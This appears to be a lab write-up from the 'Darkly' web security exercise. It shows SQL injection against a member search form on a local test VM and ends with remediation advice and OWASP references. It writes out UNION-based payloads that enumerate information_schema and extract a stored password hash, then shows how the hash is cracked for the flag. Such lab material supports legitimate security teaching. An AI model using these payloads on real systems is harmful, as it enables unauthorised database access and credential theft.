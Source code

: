 # SQL Injection (MEMBERS)

On [Members page](http://192.168.56.101/index.php?page=member) a form allows to search information on a given member using its ID number.

```
[...]
ID: 1
First name: one
Surname : me
[...]
## there is no result on 4
[...]
ID: 5
First name: Flag
Surname : GetThe
[...]
```

Let's see if we can attack this page with SQL Injection technique, by putting a `'`, a quote character. (if the error message like below prints, it means the environment is vulnerable for SQL Injection)

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1
```

with this error message we are getting, we could try using the attack queries to see if we can get the informations, with understanding of following information:

- [Understanding MariaDB Architecture](https://mariadb.com/kb/en/understanding-mariadb-architecture/#:~:text=MariaDB%20does%20not%20support%20the,table%20they%20have%20permissions%20for.)
- [SQL UNION Operator](https://www.w3schools.com/sql/sql_union.asp)

So by it means, in `information_schema`, all the information of the databases can be found, and by quering to it directly, it will be possible to get information of databases, with using `UNION` operator, there is a chance a query can retrieve data from `information_schema`. There are [lists of tables](https://dev.mysql.com/doc/refman/8.0/en/general-information-schema-tables.html), and we are going to use couple of them


Following query will bring the information of all the tables created on the database
```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
and with the list of [General Table](https://dev.mysql.com/doc/refman/8.0/en/information-schema-general-table-reference.html), we can find the table `users` is listed on the result.

From running this query, we can grab all the column names from each table, as well.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `users`, following columns are exist on the table `users`

```
user_id, first_name, last_name, town, country, planet, Commentaire, countersign
```

By tring all the columns, with using columns `Commentaire`, and `Countersign`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
```

<img width="1077" alt="image" src="https://user-images.githubusercontent.com/46742040/202273426-4ce4365e-d857-44a7-8b5b-2ac5e03e32d4.png">

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT Commentaire, countersign FROM users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```
Following the instruction, convert the string to lowercase and compute SHA256 digests.
```shell
┌──$ [~/42/2022/darkly]
└─>  echo -n FortyTwo | tr -s A-Z a-z | openssl dgst -sha256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```


# Remedattion
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
